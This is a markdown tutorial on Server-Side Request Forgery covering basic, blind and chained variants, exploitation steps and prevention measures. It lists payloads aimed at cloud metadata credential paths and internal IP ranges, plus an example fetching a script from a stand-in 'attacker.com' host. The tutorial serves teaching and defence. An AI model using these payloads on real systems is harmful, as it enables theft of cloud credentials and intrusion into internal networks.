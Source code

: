 # Server-Side Request Forgery (SSRF)

## CONTENTS
1. [What is SSRF?](#1-what-is-ssrf)
2. [Impact of SSRF Vulnerabilities](#2-impact-of-ssrf-vulnerabilities)
3. [Common Types of SSRF Vulnerabilities](#3-common-types-of-ssrf-vulnerabilities)
   - [Basic SSRF](#31-basic-ssrf)
   - [Blind SSRF](#32-blind-ssrf)
   - [Chained SSRF](#33-chained-ssrf)
4. [Prevention of SSRF Vulnerabilities](#4-prevention-of-ssrf-vulnerabilities)
5. [References](#5-references)

---

## 1. What is SSRF?

Server-Side Request Forgery (SSRF) is a web vulnerability that allows an attacker to manipulate a server into making arbitrary requests to resources they control or internal systems the attacker cannot directly access.

**Key Characteristics**:
1. The attacker sends a crafted request to a vulnerable application.
2. The server, acting as a proxy, executes the attacker’s request to unintended resources.

SSRF exploits functionality where a server fetches resources based on user input. By manipulating user-controlled parameters, attackers can:
- Access sensitive internal resources.
- Scan internal networks and services.
- Exploit cloud services or retrieve metadata.

**Example Scenario**:
- An application uses a URL to retrieve content:

`http://example.com/fetch?url=http://trusted.com/resource`

- The attacker manipulates the URL:

`http://example.com/fetch?url=http://169.254.169.254/latest/meta-data/`

This fetches sensitive data from the cloud metadata service.

---

## 2. Impact of SSRF Vulnerabilities

1. **Confidentiality**:
 - Access sensitive internal resources, such as databases, internal APIs, or cloud metadata.

2. **Integrity**:
 - Perform unauthorized actions, such as modifying server configurations.

3. **Availability**:
 - Cause denial-of-service (DoS) attacks by overwhelming internal services.

4. **Advanced Exploitation**:
 - SSRF can lead to privilege escalation, remote code execution, or lateral movement within a network.

---

## 3. Common Types of SSRF Vulnerabilities

### 3.1. Basic SSRF

**Theory**  
Basic SSRF allows direct manipulation of user-controlled input to perform unauthorized requests.

**Steps to Find**
1. Locate user inputs that fetch external resources (e.g., URLs, hostnames).
2. Test with payloads to access internal services:

```html
http://127.0.0.1/
http://169.254.169.254/latest/meta-data/
```


**Steps to Exploit**
1. Retrieve sensitive information:

```html
http://127.0.0.1/admin 
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
2. Scan for internal services:

```html
http://10.0.0.1:80 
http://192.168.0.1/private
```

---

### 3.2. Blind SSRF

**Theory**  
Blind SSRF occurs when the server processes the attacker’s request without providing a visible response. Out-of-band communication channels are often required.

**Steps to Find**
1. Set up an out-of-band (OOB) service such as Burp Collaborator or a DNS logger.
2. Inject OOB payloads:

`http://your-oob-server.com`

3. Monitor for requests from the vulnerable server.

**Steps to Exploit**
1. Enumerate internal services using delays:

```html
http://10.0.0.1:80 (200 OK) 
http://10.0.0.2:80 (no response)
```

2. Use DNS rebinding to resolve private IPs:
- Inject payloads resolving to internal IP ranges.

---

### 3.3. Chained SSRF

**Theory**  
Chained SSRF combines SSRF with other vulnerabilities to achieve a more significant impact.

**Steps to Exploit**
1. Use SSRF to retrieve configuration files or credentials:

`http://metadata.internal/latest/meta-data/`

2. Use the retrieved credentials to access internal APIs or services.
3. Trigger secondary vulnerabilities like insecure deserialization or command injection.

**Advanced Example**:
- Fetch malicious scripts:

`http://vulnerable.com/api?fetch=http://attacker.com/malicious-script`

---

## 4. Prevention of SSRF Vulnerabilities

### Input Validation

1. **Allowlist Validation**:
 - Restrict URLs and IPs to a known allowlist.
 - Example:
   - Allow only domains like `trusted.com`.
   - Block private IP ranges such as `127.0.0.1`, `10.0.0.0/8`, and `192.168.0.0/16`.

2. **Reject Unsafe Input**:
 - Block URLs using unsafe protocols (e.g., `file://`, `ftp://`).

---

### Secure Network Configuration

1. **Restrict Server Access**:
 - Limit the server’s ability to communicate with internal resources.
 - Use network segmentation to isolate sensitive systems.

2. **Firewall Rules**:
 - Use a deny-all policy for outgoing requests and allow only necessary destinations.

---

### Additional Measures

1. **Disable URL Redirections**:
 - Prevent redirection chains from bypassing input validation.

2. **Log and Monitor**:
 - Log all outgoing requests.
 - Use monitoring tools to detect abnormal traffic.

---

## 5. References

- [PortSwigger Web Security Academy – SSRF](https://portswigger.net/web-security/ssrf)  
- [OWASP SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)  
- [SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)  
